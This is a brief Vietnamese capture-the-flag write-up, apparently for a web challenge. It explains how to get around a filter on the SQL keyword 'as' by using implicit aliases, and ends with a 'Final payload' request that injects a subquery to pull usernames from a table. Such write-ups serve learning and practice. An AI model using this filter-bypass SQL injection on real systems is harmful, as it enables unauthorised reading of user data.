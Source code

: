 # Solution

Bài này chủ yếu dùng alias để giải mặc dù vì bị filter `as` nhưng ta có thể `select blabla <alias name>`

Sẽ trả về

|`alias name` |
| ----------- |
| blabla      |
| ....        |
| blabla      |


Final payload

```
user_id=8&table=(select 8 id, enemy username from costume where id like 1)&submit=Submit
```